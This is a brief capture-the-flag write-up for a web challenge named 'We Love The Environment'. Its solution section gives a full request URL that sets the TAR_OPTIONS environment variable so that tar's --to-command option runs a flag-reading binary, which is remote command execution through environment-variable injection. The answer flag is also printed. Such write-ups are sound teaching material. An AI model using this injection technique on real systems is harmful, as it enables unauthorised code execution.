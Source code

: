 # We Love The Environment

### Challenge Details

However we do *not* love challenges with names like nlinephp

### Key Concepts

Having control over environment variables can lead to RCE 

### Solution

`http://<URL>/?prog=tar&var=TAR_OPTIONS&val=--to-command '/readflag GIVEFLAGPLS' -x -f /lib/apk/db/scripts.tar`

Both teams that solved it used the tar binary and the TAR_OPTIONS variable. Are there other working payloads? Who knows...

### Flag
`greyhats{I_doNT_l0vE_you_no_m0rE}`
